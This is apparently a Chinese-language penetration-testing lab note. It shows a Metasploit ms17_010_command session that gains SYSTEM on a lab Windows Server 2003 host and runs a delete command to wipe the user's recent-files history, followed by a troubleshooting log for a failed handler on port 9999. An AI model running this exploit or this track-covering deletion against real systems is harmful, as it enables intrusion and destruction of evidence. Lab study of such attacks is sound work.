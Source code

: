 

**清除历史**：`del /f /s /q “%userprofile%\Recent*.*`

*：就是要清除 `C:\Users\[userName]\Recent` 里的所有内容

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command del /f /s /q “%userprofile%\Recent*.*
command => del /f /s /q “%userprofile%Recent*.*
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87d12d60
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Command finished with no output
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "del /f /s /q “%userprofile%Recent*.*":



[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



## 常见问题

**端口占用**

```bash
msf6 exploit(multi/handler) > run

[-] Handler failed to bind to 192.168.220.137:9999:-  -
[-] Handler failed to bind to 0.0.0.0:9999:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:9999).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > sessions i

Active sessions
===============

No active sessions.
```
